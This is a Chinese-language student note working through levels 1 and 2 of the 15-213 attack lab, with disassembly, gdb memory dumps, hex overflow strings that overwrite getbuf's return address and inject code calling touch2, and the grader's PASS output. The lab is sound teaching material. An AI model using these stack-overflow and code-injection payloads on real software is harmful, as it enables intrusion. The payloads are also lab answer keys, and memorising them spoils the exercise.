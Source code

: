 # Lab03 attack

标签（空格分隔）： 学习笔记

---

Lab03帮助学生理解缓冲区溢出，感觉要比lab02有用多了

### step1 读题
读题实际上是比较难的一个步骤。可以说大部分时间在理解题目，当题目理解好了，剩下的就不难了。
Hex2raw的意思是将你输入的十六进制数字转化成真正的十六进制
花了几天时间才搞清楚ctarget是无法接受字符串输入的

## 4 Part I: Code Injection Attacks
### 4.1 level 1

这个是最简单的缓冲区溢出，也就是栈溢出，攻击的方式就是直接在ret指令执行之前，替换rsp内存地址处的值为你想要跳转到的函数地址。
我的思路：
想要替换rsp处内存中的值，我们就首先需要找到rsp的值。

    00000000004017a8 <getbuf>:
      4017a8:	48 83 ec 28          	sub    rsp,0x28
      4017ac:	48 89 e7             	mov    rdi,rsp
      4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
      4017b4:	b8 01 00 00 00       	mov    eax,0x1
      4017b9:	48 83 c4 28          	add    rsp,0x28
      4017bd:	c3                   	ret    
      4017be:	90                   	nop
      4017bf:	90                   	nop
      
我们首先找到getbuf函数，使用gdb在0x4017bd处打一个断点。让程序运行到这个位置。查看rsp的值为0x5561dca0.  
进一步查看内存中的值，发现这个栈顶的值为0x0000000000401976。  
就是test函数中  401971:	e8 32 fe ff ff       	call   4017a8 <getbuf> 下面的一个指令的地址  
 401976:	89 c2                	mov    edx,eax

    (gdb) x/4xg 0x5561dca0
    0x5561dca0:     0x0000000000401976      0x0000000000000009
    0x5561dcb0:     0x0000000000401f24      0x0000000000000000

我们只要将输入足够长的字符串，把这个内存地址的值挤掉，变成touch1的函数地址即可。  
在gets函数中的这个指令是存储字符串的

      401a5a:	88 03                	mov    BYTE PTR [rbx],al

rbx的值为0x5561dc78
此处的内存地址中的内容为：

    (gdb) x/6xg 0x5561dc78
    0x5561dc78:     0x0000ab9078563412      0x0000000000000000
    0x5561dc88:     0x0000000000000000      0x0000000000000000
    0x5561dc98:     0x0000000055586000      0x0000000000401976

大概字符串的长度是64*5 bits就是8*5个字节，就能覆盖到0x401976。所以最后答案为

    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    12 34 56 78 90 ab cd ef ef ef
    c0 17 40 00 00 00 00 00
    

Continuing. Type string:Touch1!: You called touch1() Valid solution for level 1 with target ctarget PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:1:12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF 12 34 56 78 90 AB CD EF EF EF C0 17 40 00 00 00 00 00  [Inferior 1 (process 11388) exited normally]
    
### 4.2 level 2
这个其实也是栈溢出的原理，只不过在ret到touch2之前必须给传一个参数给edi。这个很纠结，起初我以为是不能执行栈上的数据的，后来网上搜了一下发现这个是可以执行stack中的数据的。
如果可以执行stack中的数据，那么可以操作的空间就大了很多。两次ret可以解决，第一次ret到stack上执行指令，然后操作rsp，第二次ret到touch2，这是我第一次尝试的str：

    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ec 17 40 00 00 00 00 00
    48 c7 c7 fa 97 b9 59 48
    83 ec 20 c3 00 00 00 00
    90 dc 61 55 00 00 00 00
    
但是导致了segment fault。后来网上看了，是因为rsp的值不能改，也就是说，ret到touch2以后rsp和test中的必须保持一致，但是我一直搞不清楚，rsp更改8个字节怎么就能导致段错误呢？
后来修改过stack中的指令，增加了一个pushq，使得进入touch2以后rsp的值不改变，这样就过了。

    (gdb) c
    Continuing.
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 EC 17 40 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 90 DC 61 55 00 00 00 00 
    [Inferior 1 (process 46846) exited normally]

